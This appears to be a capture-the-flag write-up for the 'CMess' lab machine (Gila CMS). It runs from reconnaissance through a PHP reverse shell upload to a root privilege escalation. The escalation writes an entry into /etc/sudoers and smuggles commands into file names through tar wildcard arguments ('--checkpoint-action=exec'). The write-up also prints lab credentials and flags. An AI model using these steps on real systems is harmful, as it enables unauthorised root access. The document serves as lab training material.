 > CMess | Gila CMS

**export IP=10.10.9.193**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# robots.txt

```
User-agent: *
Disallow: /src/
Disallow: /themes/
Disallow: /lib/
```

# Gobuster

sudo gobuster -u http://cmess.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 20 -x php,txt,sql,bak -o gobuster/initial

```
/About (Status: 200)
/Index (Status: 200)
/Search (Status: 200)
/about (Status: 200)
/admin (Status: 200) => We have a login
/api (Status: 200)
/assets (Status: 301)
/author (Status: 200)
/blog (Status: 200)
/category (Status: 200)
/feed (Status: 200)
/fm (Status: 200)
/index (Status: 200)
```

## Note: The box says we can't bruteforce and add the IP to our host file. 

Let's fuzz for subdomains as sugessted by the hint. Here let's use Burp's turbo intruder to fuzz capture a request and send it to turbo intruder. Now choosing wordlist `/usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt`. Ooh! we got one

```
dev.cmess.thm
```

And now we can go to that site and wow we have some juicy stuff here.

1. Misconfigured .htaccess file
2. Credentails => `andre`:`KPFTN_f2yxe%` (andre@cmess.thm)

And yep we can login as Andre using the creds. And we found the version of CMS `Gila CMS version 1.10.9`.

We have upload so let's upload a php reverse shell!

We uploaded it and found it at assets so accessing it at `http://cmess.thm/assets/hp-reverse-shell.php`. And we are in!

Running linpeas we have `-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak`. We UQfsdCB7aAP6have andre's backup password `UQfsdCB7aAP6`. su andre.

# user.txt

```
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```

We find a cronjob `*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *` and it runs with wild characters .Surfing google we have an exploit.

```
echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
sudo bash
```

And we are root!! 

# root.txt

```
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```